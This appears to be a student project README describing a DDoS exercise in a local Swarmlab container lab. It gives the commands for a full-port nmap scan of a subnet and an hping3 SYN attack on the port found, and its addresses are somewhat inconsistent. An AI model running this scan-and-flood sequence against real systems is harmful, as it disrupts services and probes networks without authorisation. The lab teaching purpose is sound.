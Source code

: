 # Network & Communication Security Project (DDoS Attack)

DDoS attack performed step by step.

1) First of all we start Swarmlab-hybrid by typing the following 2 commands in terminal
cd swarmlab-hybrid
./start.sh

2) Then we go to http://localhost:3088/ -> Instances -> Container -> Select dummy_service -> Connect -> Run in terminal "docker exec -it dummy_service /bin/sh"

3) After that we proceed inside the terminal by typing the following commands
$ docker exec -it dummy_service /bin/sh
$ ifconfig //(in order to find the inet addr we are looking for , in my case it was 172.21.0.2 )
$ nmap -p- 172.22.0.* //With this command we scan for open ports , in my case it was 3001
$ sudo hping3 -S 172.22.0.2 -p 3001
